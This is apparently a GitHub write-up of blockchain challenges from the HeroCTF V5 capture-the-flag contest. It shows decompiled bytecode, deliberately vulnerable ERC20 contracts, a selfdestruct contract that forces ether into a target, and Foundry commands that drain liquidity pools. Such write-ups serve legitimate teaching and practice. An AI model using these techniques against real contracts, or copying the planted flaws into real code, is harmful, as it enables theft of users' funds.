

# HeroCTF-V5-WU-Foundry
Welcome to the narrative of my adventure in the blockchain category of HeroCTF V5 (2023). It was all about Foundry this time. And oh boy, did it make a splash!

You can found the foundry template used for this CTF : [here](https://github.com/m4k2/foundry-ctf-template).

Fun side note: Foundry is like the superhero sidekick I never knew I needed. It's so powerful that I'm planning to use it for every other CTF. Plus, there's a neat template for CTF that comes along. Sweet deal, right?

## Challenge 00 : Oh sh. Here we go again ?

Challenge Briefing: *"This year, we're going to amp it up! Deploy, comprehend, dodge, and verify the contract. Sounds like a piece of cake, right?"*

For this mission, we're going in blind - no source code. So, we're going to play a little detective and fetch it straight from the blockchain. Then, we'll [decompile](https://ethervm.io/decompile) the code and do a little reverse engineering.

My mission's coordinates, or rather, the address was `0xCDC73DEF312bBc279f999D8Fe97df5556dAdd395`.

With Foundry's super handy `cast code` command, I managed to snatch the bytecode.

```bash
$ cast code 0xCDC73DEF312bBc279f999D8Fe97df5556dAdd395 --rpc-url $RPC_URL

0x608060405234801561001057600080fd5b50600436106100575760003560e01c80633c5269d81461005c578063459a279014610066578063473ca96c1461008457806375ec067a146100a2578063e9a37061146100ac575b600080fd5b6100646100ca565b005b61006e6100e6565b60405161007b9190610184565b60405180910390f35b61008c6100f9565b6040516100999190610184565b60405180910390f35b6100aa610127565b005b6100b4610158565b6040516100c19190610184565b60405180910390f35b60016000806101000a81548160ff021916908315150217905550565b600060019054906101000a900460ff1681565b60008060009054906101000a900460ff1680156101225750600060019054906101000a900460ff165b905090565b60008054906101000a900460ff1615610156576001600060016101000a81548160ff0219169083151502179055505b565b60008054906101000a900460ff1681565b60008115159050919050565b61017e81610169565b82525050565b60006020820190506101996000830184610175565b9291505056fea2646970667358221220410b70e32943a11347a432c640d65c5ccae8006bc0dbc6dd7ba624c219c0059264736f6c63430008110033
```

Next up, the [decompiler](https://ethervm.io/decompile) came to our rescue to decode the code.

```js
contract Contract {
    function main() {
        memory[0x40:0x60] = 0x80;
        var var0 = msg.value;
    
        if (var0) { revert(memory[0x00:0x00]); }
    
        if (msg.data.length < 0x04) { revert(memory[0x00:0x00]); }
    
        var0 = msg.data[0x00:0x20] >> 0xe0;
    
        if (var0 == 0x3c5269d8) {
            // Dispatch table entry for 0x3c5269d8 (unknown)
            var var1 = 0x0064;
            func_00CA();
            stop();
        } else if (var0 == 0x459a2790) {
            // Dispatch table entry for 0x459a2790 (unknown)
            var1 = 0x006e;
            var var2 = func_00E6();
            var temp0 = var2;
            var2 = 0x007b;
            var var3 = temp0;
            var var4 = memory[0x40:0x60];
            var2 = func_0184(var3, var4);
            var temp1 = memory[0x40:0x60];
            return memory[temp1:temp1 + var2 - temp1];
        } else if (var0 == 0x473ca96c) {
            // Dispatch table entry for win()
            var1 = 0x008c;
            var1 = func_00F9();
            var temp2 = var1;
            var1 = 0x0099;
            var2 = temp2;
            var3 = memory[0x40:0x60];
            var1 = func_0184(var2, var3);
            var temp3 = memory[0x40:0x60];
            return memory[temp3:temp3 + var1 - temp3];
        } else if (var0 == 0x75ec067a) {
            // Dispatch table entry for 0x75ec067a (unknown)
            var1 = 0x00aa;
            func_0127();
            stop();
        } else if (var0 == 0xe9a37061) {
            // Dispatch table entry for 0xe9a37061 (unknown)
            var1 = 0x00b4;
            var2 = func_0158();
            var temp4 = var2;
            var2 = 0x00c1;
            var3 = temp4;
            var4 = memory[0x40:0x60];
            var2 = func_0184(var3, var4);
            var temp5 = memory[0x40:0x60];
            return memory[temp5:temp5 + var2 - temp5];
        } else { revert(memory[0x00:0x00]); }
    }
    
    function func_00CA() {
        storage[0x00] = (storage[0x00] & ~0xff) | 0x01;
    }
    
    function func_00E6() returns (var r0) { return storage[0x00] / 0x0100 ** 0x01 & 0xff; }
    
    function func_00F9() returns (var r0) {
        var var0 = 0x00;
        var var1 = storage[var0] & 0xff;
    
        if (!var1) { return var1; }
        else { return storage[0x00] / 0x0100 ** 0x01 & 0xff; }
    }
    
    function func_0127() {
        if (!(storage[0x00] & 0xff)) { return; }
    
        storage[0x00] = (storage[0x00] & ~(0xff * 0x0100 ** 0x01)) | 0x0100 ** 0x01;
    }
    
    function func_0158() returns (var r0) { return storage[0x00] & 0xff; }
    
    function func_0169(var arg0) returns (var r0) { return !!arg0; }
    
    function func_0175(var arg0, var arg1) {
        var var0 = 0x017e;
        var var1 = arg1;
        var0 = func_0169(var1);
        memory[arg0:arg0 + 0x20] = var0;
    }
    
    function func_0184(var arg0, var arg1) returns (var r0) {
        var temp0 = arg1;
        var var0 = temp0 + 0x20;
        var var1 = 0x0199;
        var var2 = temp0;
        var var3 = arg0;
        func_0175(var2, var3);
        return var0;
    }
```

After spending some time deciphering, it turned out that the only functions that could transform the state of the smart contract were `func_00CA()` or `func_0127()`.

To conquer this mission, my move was to call `func_00CA()`, followed by `func_0127()`.

Checking out the match table, it showed that `func_00CA()` answers to the selector `0x3c5269d8`, and `func_0127()` responds to `0x75ec067a`.

So, I summoned Foundry's CLI: 

```bash
$ cast send 0xCDC73DEF312bBc279f999D8Fe97df5556dAdd395 0x3c5269d8 --rpc-url $RPC_URL --private-key $PRIVATE_KEY --legacy
```

```bash
$ cast send 0xCDC73DEF312bBc279f999D8Fe97df5556dAdd395 0x75ec067a --rpc-url $RPC_URL --private-key $PRIVATE_KEY --legacy
```
*Hero{M3l_weLComes_U_B4cK!:)}*


## Challenge 01 : Classic one tbh

Challenge Briefing: *"There's an ERC20 out there, and a villain has his dirty money stashed in it. Your mission, should you choose to accept it, is to prevent this villain from reclaiming his ill-gotten gains. Remember, this ERC20 is a lone wolf, not linked to any swap. Your path to victory? Block all sales and grab the flag!"*

There is no foundry script or test as i solve it only using cli, but you can recreate the test and script taking example on other challenges.

Here's a sneak peek into the source code:

```js
pragma solidity 0.8.17;

contract  hero2303
 {
    mapping (address => uint256) private userBalances;

    uint256 public constant TOKEN_PRICE = 1 ether;
    string public constant name = "UNDIVTOK";
    string public constant symbol = "UDK";
    
    uint8 public constant decimals = 0;

    uint256 public totalSupply;

    function buy(uint256 _amount) external payable {
        require(
            msg.value == _amount * TOKEN_PRICE, 
            "Ether submitted and Token amount to buy mismatch"
        );

        userBalances[msg.sender] += _amount;
        totalSupply += _amount;
    }

    function sell(uint256 _amount) external {
        require(userBalances[msg.sender] >= _amount, "Insufficient balance");

        userBalances[msg.sender] -= _amount;
        totalSupply -= _amount;

        (bool success, ) = msg.sender.call{value: _amount * TOKEN_PRICE}("");
        require(success, "Failed to send Ether");

        assert(getEtherBalance() == totalSupply * TOKEN_PRICE);
    }

    function transfer(address _to, uint256 _amount) external {
        require(_to != address(0), "_to address is not valid");
        require(userBalances[msg.sender] >= _amount, "Insufficient balance");
        
        userBalances[msg.sender] -= _amount;
        userBalances[_to] += _amount;
    }

    function getEtherBalance() public view returns (uint256) {
        return address(this).balance;
    }

    function getUserBalance(address _user) external view returns (uint256) {
        return userBalances[_user];
    }
}
```

Here's the plan of action: We'll be the crafty heroes and concoct another smart contract. Then, we'll hit the self-destruct button on the 'hero2303' contract. It's a dirty job, but someone's got to do it.

Smart contract use for the attack : 

```js
pragma solidity 0.8.17;

contract Selfdestruct{
    constructor() payable{
        require(msg.value == 0.5 ether);
    }

    function kill(address addr) public {
        selfdestruct(payable(addr));
    }
}
```

Foundry cli to deploy Selfedestruct and execute the kill(...) function : 

To deploy :
```bash
forge create src/selfdestruct.sol:Selfdestruct --value 0.5ether --rpc-url $RPC_URL --private-key $PRIVATE_KEY
```
This return the `Selfdestrcut` addresse, thus, we can cast the kill function : 
```bash
cast send 0x[Selfdestruct] "kill(address)" 0x[target address] --rpc-url $RPC_URL --private-key $PRIVATE_KEY
```

Post-destruction, the statement `assert(getEtherBalance() == totalSupply * TOKEN_PRICE);` will always return false. This means the 'sell' function will hit a wall every single time.

Flag : *Hero{S4m3_aS_USU4L_bUT_S3eN_IRL??!}*

## A Brief Pause to Clarify Crucial Details for Upcoming Challenges

The subsequent three challenges focus on Decentralized Exchanges (DEXs) that operate similar to Uniswap. Here are some vital resources to understand Uniswap's functioning: [Whiteboard Crypto video](https://www.youtube.com/watch?v=dVJzcFDo498&list=PLHx4UicbtUoYvCvRouZ4XbaDpE7cbCCqo&ab_channel=WhiteboardCrypto) and [official documentation](https://docs.uniswap.org/contracts/v2/concepts/core-concepts/pools). All of these exercises center around a vulnerable ERC20 smart contract. We'll exploit these vulnerabilities to acquire an arbitrary amount of these ERC20 tokens, thereby hacking into a liquidity pool containing our ERC20 token and another ERC20 token: WMEL.

The aim of these forthcoming challenges is to drain the pool of WMEL tokens. Initially, the pool contains 20 WMEL tokens and an indeterminate quantity of vulnerable ERC20 tokens. Our task is to reduce the liquidity of WMEL to less than 0.5 WMEL.

## Challenge 02 : Dive into real life stuff

Challenge Briefing: *"If you're at this point, you're probably Solidity fluent So, in real life, trading takes place on DEXes.
There is a DEX ! This ERC20 will be deployed as a pair on it.
Steal the money ! It has to have less that 0.5 WMEL liquidities."*

The source code : 

```js
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.17;

import "./IERC20.sol";

contract hero2302 is IERC20 {
    uint public totalSupply = 1000000 ether;
    mapping(address => uint) public balanceOf;
    mapping(address => mapping(address => uint)) public allowance;
    string public name = "PouneSomeSolidity2earn";
    string public symbol = "PWNNERN";
    uint8 public decimals = 18;

    constructor() 
    {
        balanceOf[msg.sender] = totalSupply;
    }

    function getAllowance(address src) public view returns (uint) 
    {
      return allowance[msg.sender][src];
    }

    function getBalanceOf(address guy) public view returns (uint)
    {
        return balanceOf[guy];
    }

    function transfer(address recipient, uint256 amount) external returns (bool) 
    {
        balanceOf[msg.sender] -= amount;
        balanceOf[recipient] += amount;
        emit Transfer(msg.sender, recipient, amount);
        return true;
    }

    function approve(address spender, uint amount) external returns (bool) 
    {
        allowance[msg.sender][spender] = amount;
        emit Approval(msg.sender, spender, amount);
        return true;
    }

    function approve(uint amount) external returns (bool)
    {
        allowance[msg.sender][msg.sender] = amount;
        balanceOf[msg.sender] = amount;
        emit Approval(msg.sender, msg.sender, amount);
        return true;
    }

    function transferFrom(
        address sender,
        address recipient,
        uint amount
    ) external returns (bool) 
    {

        balanceOf[sender] -= amount;
        balanceOf[recipient] += amount;
        emit Transfer(sender, recipient, amount);
        return true;
    }

    function mint(uint amount) external 
    {
        balanceOf[msg.sender] += amount;
        totalSupply += amount;
        emit Transfer(address(0), msg.sender, amount);
    }

    function burn(uint amount) external 
    {
        balanceOf[msg.sender] -= amount;
        totalSupply -= amount;
        emit Transfer(msg.sender, address(0), amount);
    }
}


```

As you can see the `approve(uint)` function allow to get arbitrary balance: 

The line `balanceOf[msg.sender] = amount;` is the key here.

```js
function approve(uint amount) external returns (bool)
    {
        allowance[msg.sender][msg.sender] = amount;
        balanceOf[msg.sender] = amount;
        emit Approval(msg.sender, msg.sender, amount);
        return true;
}
```

Call it, and voila! You've hit the jackpot! You can now drain the entire pool of funds.

For a detailed view of this operation on how to empty the pool, check out the Foundry [test](https://chat.openai.com/test/chall02.t.sol) and [script](https://chat.openai.com/script/chall02/Exploitoor.s.sol) that provide an play-by-play of the exploit.

Flag : *Hero{Th1s_1_w4s_3z_bro}*

## Challenge 03 : You have to be kidding me..

Challenge Briefing : *Same story. It's not that the bug is even hard, but can you find it ?
How could a guy even come up with that ?
The pair will be listed on the DEX too.
You get the flag if the pair has < 0.5 MEL$ liquidities.*

We dive into an intricate labyrinth of source code, which, for the sake of brevity, is stashed [here](src/chall03/chall03.sol).


The plot thickens as we discover a shocking change in the SafeMath library. It seems our mysterious trickster has twisted the 'sub' function to bizarrely add values instead of subtracting them :
```js
function sub(uint256 a, uint256 b) internal pure returns (uint256) {
        return a + b;
    }
```

Thus the burn(...) function increase the balance instead of reduce it : 
```js
function burn(uint amount) external {
        balanceOf[msg.sender] = balanceOf[msg.sender].sub(amount); 
        totalSupply.sub(amount);

        emit Transfer(msg.sender, address(0), amount);
}
```

Call it, and bam! The vault is yours to empty! 

For an eye-popping, step-by-step walkthrough of this exploit, you'd definitely want to check out the Foundry [test](https://chat.openai.com/test/chall03.t.sol) and [script](https://chat.openai.com/script/chall03/Exploitoor.s.sol).

Flag : *Hero{H0w_L0ng_D1d_1t_T4k3_U_?..lmao}*

## Challenge 04 : Now this is real life

The challenge briefing is quite cryptic this time: *"lol but sir, why would we show you the sources? An attacker won't have them... A friend of mine told me recently 'Oh this BB scope has web3, you should check it out!'. They gave him as much info as I'm giving you now. Good luck, have fun! Oh, and don't forget, you have to empty the contract (< 0.5 WMEL. You know the drill by now)"*

Intriguing, isn't it? This time we're as blind as a bat, with no bytecode in sight just like in our first challenge. Our trusty companion, `cast code`, comes to our rescue once again, helping us fetch the elusive [bytecode](https://chat.openai.com/src/chall04/bytecode.txt).

A quick trip to the [decompiler](https://ethervm.io/decompile) reveals the presence of all the functions of an ERC20 token:



The gears of our minds start turning rapidly. An initial attempt to use the `mint(uint256)` function meets with a cold rejection, getting swiftly reverted. Undeterred, we try the `transferOwnership(address)` function and voila, we're the proud new owners!

Feeling emboldened, we give the `mint` function another whirl, and this time, it works like a charm! The rest, as they say, is a piece of cake. Drain the pool, celebrate the victory, and bask in the glory of your success!

Flag : *Hero{S0_Ur_4_r3AL_hUnT3r_WP_YMI!!!}*


## Thanks for watching 


